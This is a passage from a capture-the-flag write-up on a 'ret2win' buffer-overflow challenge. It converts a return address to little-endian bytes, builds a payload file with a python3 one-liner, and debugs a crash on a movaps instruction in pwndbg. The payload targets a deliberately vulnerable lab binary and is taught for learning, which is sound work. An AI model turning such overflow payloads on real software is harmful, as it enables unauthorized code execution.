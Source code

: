 * `0x0000000000400756`
* Now we need to reverse this order via little-endian for our payload

```
\x56\x07\x40\x00\x00\x00\x00\x00
```

**Utilizing python3, we can jump to `ret2win()` once more and see that in the result of our execution and obtain our flag:**

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\x56\x07\x40\x00\x00\x00\x00\x00')"  > payload
```

So initially, <mark style="color:yellow;">I just slapped this address in and redirected the output to a file and what ended up happening is I was diverting execution to</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`ret2win()`</mark><mark style="color:yellow;">, but I was crashing right before printing the flag</mark>.

Upon examining this within pwndbg, <mark style="color:yellow;">we can see that we are crashing on the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`movaps`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">instruction</mark>.

**Sending our payload in pwndbg:**

```
pwndbg> r < payload
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>